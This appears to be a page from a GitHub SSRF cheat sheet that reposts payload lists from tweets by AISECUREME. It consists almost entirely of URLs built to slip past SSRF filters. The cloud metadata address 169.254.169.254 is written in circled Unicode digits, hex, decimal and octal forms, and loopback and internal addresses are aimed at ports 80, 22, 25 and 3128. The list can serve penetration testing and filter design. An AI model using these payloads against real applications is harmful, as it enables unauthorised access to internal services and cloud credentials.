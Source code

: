 [tweet](https://twitter.com/aisecureme/status/1238061828229353473) By [AISECUREME](https://twitter.com/aisecureme)

![SSRF](Images/ssrf.png)
Payloads
```
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
http://⓪ⓧⓐ⑨ⓕⓔⓐ⑨ⓕⓔ:80/
http://②⑧⑤②⓪③⑨①⑥⑥:80/
http://④②⑤｡⑤①⓪｡④②⑤｡⑤①⓪:80/
http://⓪②⑤①。⓪③⑦⑥。⓪②⑤①。⓪③⑦⑥
```

[tweet](https://twitter.com/aisecureme/status/1238853314193682432) By [AISECUREME](https://twitter.com/aisecureme)
```http://[::]:80/
http://[::]:25/
http://[::]:22/
http://[::]:3128/
http://0000:80/::1/
http://0000:25/::1/
http://0000:22/::1/
http://0000:3128/::1/
http://127.0.1.3/
http://127.0.0.0/
http://0177.0.0.1/
http://2130706433/
http://3232235521/
http://3232235777/
```
